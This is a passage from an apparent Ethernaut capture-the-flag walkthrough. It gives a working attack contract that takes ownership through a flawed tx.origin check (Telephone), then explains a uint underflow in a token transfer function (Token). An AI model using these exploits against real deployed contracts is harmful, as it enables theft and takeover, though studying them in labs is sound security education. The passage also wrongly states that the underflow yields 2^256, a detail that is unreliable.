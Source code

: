 ```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

This means, we can simply use an external contract to call the `changeOwner()` function and pass our account’s address to claim ownership of the contract.

Find the attack contract below :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract hack {
    Telephone private immutable target;

    constructor (address _target) {
        target = Telephone(_target);
    }

    function attack() external {
        target.changeOwner(tx.origin);
    }
}
```

It is necessary to use an external contract to complete this challenge, as if we try to call the `changeOwner()` function directly, `tx.origin` and `msg.sender` bothwill point to our account's address, hence the check in the challenge contract will fail.

___
## Level 5 [Token]

This level aims to show us how an overflow/underflow attack works. The compiler version for the challenge contract is `^0.6.0`, which doesn’t support the safemath library, making the contract vulnerable to overflow/underflow attacks if proper checks are not performed.
The objective of this challenge is to increase the number of tokens from 20 to an obscenely high number for our address. If we look at the contract, we will notice that `balances[msg.sender]` gets updated in the `transfer()` function.

```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
``` 

Since we have 20 tokens for our address initially, we can easily transfer 21 tokens to any random address, so that an underflow takes place. `20 – 21 = -1`, but, here, since we are using uint which defaults to uint256, instead of getting `-1`, we will get `2^256`.
